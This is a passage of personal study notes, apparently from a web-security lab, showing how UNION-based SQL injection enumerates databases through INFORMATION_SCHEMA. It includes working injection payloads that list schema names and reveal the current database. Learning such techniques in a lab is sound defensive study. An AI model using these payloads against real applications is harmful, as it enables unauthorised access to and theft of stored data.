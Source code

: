 the `SCHEMA_NAME` column contains all the db names currently present 

`SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA;`

note that the first 3 results from this query will show the default MySQL databases present on any server   
sometimes there is a fourth 'sys' db as well 

so now we can try payloads like: 

`cn' UNION SELECT 1,schema_name,3,4 FROM INFORMATION_SCHEMA.SCHEMATA-- `

![](Images/Pasted%20image%2020240129160558.png)

apart from the default databases we can see "dev" and "ilfreight"

now we can try to find out which database the web app is using to retrieve the ports data from   
we can get the current database with `SELECT database()`: 

`cn' UNION SELECT 1,database(),2,3-- `

![](Images/Pasted%20image%2020240129160810.png)
